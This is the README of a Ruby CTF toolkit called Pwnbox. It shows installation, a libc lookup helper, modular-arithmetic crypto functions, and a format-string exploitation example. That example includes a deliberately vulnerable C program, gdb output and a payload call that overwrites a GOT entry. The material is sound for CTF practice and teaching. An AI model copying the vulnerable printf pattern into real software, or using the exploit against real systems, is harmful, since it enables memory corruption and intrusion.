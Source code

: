 # Pwnbox

[![Build Status](https://travis-ci.org/jakkdu/pwnbox.svg?branch=master)](https://travis-ci.org/jakkdu/pwnbox)

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
puts "Path : #{libc.path}"
puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char** argv)
{
    char buf[0x100];
    strncpy(buf, argv[1], 40);
    printf(buf);
    exit(-1);
}
```

Get exploit parameters using gdb.

```shell
=> 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
(gdb) x/i 0x8048350
   0x8048350 <exit@plt>:        jmp    *0x804a014
(gdb) x/x $esp
0xbffff2f0:     0xbffff30c
```

exit GOT : 0x804a014, buffer : 0xbffff30c, esp : 0xbffff2e0

```ruby
Pwnbox::Pwnable.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```

### Cryptography
```ruby
# gives (gcd, x, y) where ax + by = gcd
Pwnbox::Crypto::extended_gcd(a, b)

# gives root of ax = b mod m
Pwnbox::Crypto::solve_linear_congruence_equation(a, b, m)

# gives a modular inverse of a mod m
Pwnbox::Crypto::mod_inverse(a, m)

# gives root of x^2 = a mod p
Pwnbox::Crypto::mod_prime_sqrt(a, p)

# gives root of x^2 = a mod (p * q)
Pwnbox::Crypto::mod_composite_sqrt(a, p, q)

# gives the result of chinese remainder theorem
Pwnbox::Crypto::chinese_remainder_theorem(remainders, mods)
```
